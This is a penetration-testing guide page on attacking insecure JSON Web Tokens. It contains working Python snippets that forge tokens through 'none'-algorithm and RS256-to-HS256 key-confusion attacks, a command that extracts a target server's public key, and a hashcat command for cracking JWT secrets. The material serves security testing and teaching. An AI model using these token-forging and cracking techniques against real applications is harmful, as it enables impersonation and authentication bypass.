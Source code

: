# Insecure JSON Web Tokens

## Theory

Some web applications rely on JSON Web Tokens \(JWTs\) for stateless authentication and access control instead of stateful ones with traditional session cookies. Some implementations are insecure and allow attackers to bypass controls, impersonate users, or retrieve secrets.

## Practice

Testers need to find if, and where, the tokens are used. A JWT is a base64 string of at least 100 characters, made of three parts \(header, payload, signature\) separated by dot, and usually located in `Authorization` headers with the `Bearer` keyword. See the the following example.

```text
Authorization: Bearer eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]
```

Once the tokens are found, testers need to assess their implementation's security by attempting some known attacks and flaws.

### Sensitive data

JWTs are just base64 encoded data. They may contain sensitive unencrypted information.

### Signature attack - None algorithm

Testers need to decode the token, change the algorithm to `None` \(or `none`, `NONE`, `nOnE`\) in the header, remove the signature, and send the modified token. Some applications are vulnerable to this attack since some support a None algorithm for signature.

This can be done in Python.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
new_token = jwt.encode(old_token_payload, key='', algorithm=None)
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key='', algorithm=None)
print(token)
```

### Signature attack - RS256 to HS256

If the algorithm used to sign the payload is RS256, testers can try to use HS256 instead. Instead of signing the JWT payload with a private key, using HS256 will make the web app sign it with a public key that can sometimes be easily obtained.

{% hint style="info" %}
Some applications re-use their TLS certificate for JWT operations. The TLS certificate's public key used by a server can be obtained with the following command.

```bash
echo | openssl s_client -connect $TARGET:443 | openssl x509 -pubkey -noout > pubkey.pem
```
{% endhint %}

The following Python code can be used to identify if the web application is vulnerable to this attack.

```python
import jwt
old_token = 'eyJ0eXAiOiJKV1Q[...].eyJpc3MiOiJodHRwO[...].HAveF7AqeKj-4[...]'
old_token_payload = jwt.decode(old_token, verify=False)
public_key = open('pubkey.pem', 'r').read()
new_token = jwt.encode(old_token_payload, key=public_key, algorithm='HS256')
print(new_token)
```

If the token is accepted by the web app, it means the payload can be altered.

{% hint style="warning" %}
The jwt library imported in the following Python code raises an exception when attempting to use an asymmetric key or x509 certificate as an HMAC secret. Testers need to install version 0.4.3 `pip/pip3 install pyjwt==0.4.3`.
{% endhint %}

```python
import jwt
public_key = open('pubkey.pem', 'r').read()
payload = {'key1':'value1', 'key2':'value2'}
token = jwt.encode(payload, key=public_key, algorithm='HS256')
print(token)
```

### Cracking the secret

When JWT use HMAC-SHA256/384/512 algorithms to sign the payload, tester can try to find the secret used if it weak enough. [JWT cracker](https://github.com/lmammino/jwt-cracker) \(JavaScript\) and [JWT tool](https://github.com/ticarpi/jwt_tool) \(Python\) are tools that testers can use to bruteforce JWT secrets.

JWT secrets can also be cracked using hashcat \(see the [AD credential cracking](../../active-directory-domain-services/movement/credentials/cracking.md) page for more detailed info on how to use it\).

```bash
hashcat --hash-type 16500 --attack-mode 0 $JWTs_file $wordlist_file
```

## References

{% embed url="https://www.sjoerdlangkemper.nl/2016/09/28/attacking-jwt-authentication/" caption="" %}

{% embed url="https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/" caption="" %}

{% embed url="https://blog.imaginea.com/stateless-authentication-using-jwt-2/" caption="" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token" caption="" %}

{% embed url="https://jwt.io/" caption="" %}

